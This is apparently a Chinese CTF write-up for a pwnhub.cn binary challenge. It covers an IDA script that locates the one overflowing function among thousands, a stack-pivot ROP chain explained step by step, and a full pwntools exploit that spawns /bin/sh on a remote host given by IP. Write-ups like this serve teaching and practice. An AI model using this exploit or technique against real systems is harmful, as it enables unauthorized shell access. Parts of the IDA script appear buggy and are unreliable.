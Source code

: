 ```yaml
---
layout: post
title: pwnhub.cn 名字还在起 无题 writeup
categories: [PWN, Writeup]
description: pwnhub.cn 名字还在起 PWN题
keywords: WEB, PWN, Writeup
---
```


当天晚上跟大佬们出去high了没做题目，结果第二天起床之后就发现一血二血都被大佬们拿走了，膜

## 题目分析

刚拿到之后丢进IDA看了一下，好多函数。然后随便点几个函数进去，发现所有的函数都是一个形式的，我随便找几个大家感受一下就明白了：

```C
size_t func_17979()
{
  char ptr; // [rsp+0h] [rbp-C0h]@1

  fread(&ptr, 0xB3uLL, 1uLL, stdin);
  return fwrite("thank you for testing!!\n", 1uLL, 0x18uLL, stdout);
}

size_t func_60781()
{
  char ptr; // [rsp+0h] [rbp-C0h]@1

  fread(&ptr, 0xB5uLL, 1uLL, stdin);
  return fwrite("thank you for testing!!\n", 1uLL, 0x18uLL, stdout);
}

size_t func_92021()
{
  char ptr; // [rsp+0h] [rbp-20h]@1

  fread(&ptr, 0x15uLL, 1uLL, stdin);
  return fwrite("thank you for testing!!\n", 1uLL, 0x18uLL, stdout);
}

```

然后看了一下主函数的逻辑，发现上述的这些函数的调用方式为直接输入函数名字后面的数字就可以调到相应的函数，比如输入17979就会调func_17979。所以这个题目看起来像是从这将近3000长得差不多的函数里面找一个有溢出的函数。。orzzzz

于是我写了一个IDA脚本

```python
for addr in XrefsTo(0x00400550, flags=0):
	func=addr.frm;
	writesize=0;
	buffersize=0;
	while(1):
		if(Byte(func)==0xBE and Byte(func+2)==0x00 and Byte(func+3)==0x00 and Byte(func+4)==0x00):
			writesize=Byte(func+1)
		elif(Byte(func)==0xBE and Byte(func+3)==0x00 and Byte(func+4)==0x00 and Byte(func+5)==0x00):
			writesize=Word(func+1)
		if(Byte(func)==0x48 and Byte(func+1)==0x83 and Byte(func+2)==0xEC):
			buffersize=Byte(func+3)
			break;
		elif(Byte(func)==0x48 and Byte(func+1)==0x81 and Byte(func+2)==0xEC):
			buffersize=Byte
			break;
		elif(Byte(func)==0x48 and Byte(func+1)==0x83 and Byte(func+2)==0xC4):
			buffersize=Byte
			break;
		func-=1;
		if(addr.frm-func > 0x40):
			break;
	if writesize==0 or buffersize==0:
		print "error",hex(addr.frm)
	elif buffersize<writesize:
		print "oflow",hex(addr.frm),"buffersize="+str(hex(buffersize)),"writesize="+str(hex(writesize))
```

放在IDA里面跑一下 很快就输出了有漏洞的函数的offset

```
oflow 0x40d169L buffersize=0x20 writesize=0x30
```


## 漏洞利用

利用比较有技巧性的一点是这题的溢出只有0x10 Bytes，所以要把栈劫持到bss上，也就是做Stack Pivot。关于这一点做法其实很多，一种方法是不断调用有漏洞函数然后leave ret返回main，这样每次可以往bss段写0x20的数据，所来几次就可以把ROP chain写全。但是我觉得这样做太蛋疼了所以没这么干，就去想了想新方法，后面发现新方法更蛋疼。。。

我的ROP的做法如下

1. 第一次触发漏洞，在leave的时候改写rbp为bss的末端地址rbp1，返回漏洞函数的**sub     rsp, 20h**指令之后。
2. 第二次触发漏洞，由于rbp被劫持到rbp1，所以这一次fread会向rbp-0x20写入数据，且在leave到时候会改写rsp为rbp1，改写rbp为rbp2,其中rbp2为rbp1-0x20，返回一个能够读入0xd0字节的函数的**sub     rsp, d0h**指令之后。
3. 此时该函数会向rbp2-0xd0读入数据0xc1的数据，但是rsp的值却为rbp1，也就是rbp2+0x20，所以rbp和rsp的值是冲突的，这样会导致函数在读入过程中覆盖fread函数以及其调用链的栈帧本身，从而可以libc中fread函数以及接下来的调用链栈帧
4. 覆盖libc中的**\_\_memcpy\_sse2**的返回地址为pop rsp的地址，这样就可以劫持rsp到rbp2-0xd0，rbp2-0xd0在第三步的时候已经被准备好了gadget，接下来就愉快的ROP就可以，直接设置rsi rdi rdx 以及rax调syscall就好了

### 踩坑小记

我的做法主要是蛋疼之处在于依赖libc的版本，不同libc的版本fwrite函数的调用链栈帧可能不一样，当时我以为远程的系统版本应该是16.04所以我就在16.04调的exp，本地很快就过了，但是远程打不进去，我觉得很蛋疼，于是又在15.04 14.04测试了一下exp，都没有问题。心想该不会是16.10的系统吧，于是又现下了16.10版本，发现我的exp果然在16.10不work，想来是16.10的fwrite函数的调用链的栈帧跟之前的版本不一样了吧。改了几个offset之后打过去果然拿到了shell。




## Exploit

```python

from pwn import *;

port=17773
objname = "KLHFD34J"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)
def readuntil(delim):
    data = io.recvuntil(delim);
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    return data;

def write(data):
    io.send(str(data));
    sleep(0.1);

def writeline(data):
    io.sendline(str(data));
    sleep(0.1);
def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    rbp1=0x66c080+0xD0+0x20
    vulfunc=0x40D14E;
    rbp2=0x66c080+0xD0
    binsh=0x66c128
    read_d0=0x401866
    poprsp=0x0044a5c4
    rsp=0x66c080
    prdx=0x0040fe12
    pprsi=0x0044dc21
    prdi=0x0044dc23
    syscall=0x004379d7
    
    readuntil("function?\n")
    writeline(48607);
    payload1="A"*0x20;
    payload1+=p64(rbp1)
    payload1+=p64(vulfunc)
    write(payload1)
    
    payload2="B"*0x20
    payload2+=p64(rbp2)
    payload2+=p64(read_d0)
    write(payload2)

    payload3=p64(prdi)
    payload3+=p64(binsh-8);
    payload3+=p64(0x400590) #atoi
    payload3+=p64(pprsi)
    payload3+=p64(binsh+0x300);#rsi
    payload3+=p64(binsh+0x300);#r15
    payload3+=p64(prdi)
    payload3+=p64(binsh)
    payload3+=p64(prdx)
    payload3+=p64(0)
    payload3+=p64(syscall)
    payload3+="C"*(0x70-88);
    payload3+="D"*8;
    payload3+=p64(poprsp)
    payload3+=p64(rsp)
    payload3+="E"*24
    payload3+="59"+"\x00"*6;
    payload3+="/bin/sh\x00"
    payload3+="F"*0x11
    write(payload3)
    io.interactive();

#attack()
attack("54.223.81.128")
```
